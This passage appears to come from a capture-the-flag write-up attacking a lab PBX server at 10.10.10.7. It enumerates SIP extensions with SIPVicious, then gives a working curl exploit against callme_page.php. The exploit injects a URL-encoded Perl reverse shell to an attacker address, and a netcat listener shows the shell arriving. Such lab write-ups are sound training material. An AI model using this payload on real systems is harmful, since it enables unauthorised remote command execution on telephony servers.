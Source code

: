```shell
git clone https://github.com/enablesecurity/sipvicious.git
cd sipvicious
sudo python3 setup.py install
pip3 install .
sipvicious_svcrack --help
```

Now we need an invite and a range of extensions to find an authentication:

```shell
❯ sipvicious_svwar -m INVITE -e 100-999 10.10.10.7 2>/dev/null
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
| 407       | weird          |
+-----------+----------------+
| 409       | weird          |
+-----------+----------------+
| 525       | weird          |
+-----------+----------------+
| 534       | weird          |
+-----------+----------------+
| 504       | weird          |
+-----------+----------------+
| 519       | weird          |
+-----------+----------------+
| 791       | weird          |
+-----------+----------------+
| 759       | weird          |
+-----------+----------------+
| 825       | weird          |
+-----------+----------------+
| 884       | weird          |
+-----------+----------------+
```

The extension 233 seems to be valid.

We can get a reverse shell doing manually:

```shell
curl -sk "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.3%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A"
```

Then catch a reverse shell with nc:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 33688
id
uid=100(asterisk) gid=101(asterisk)
```
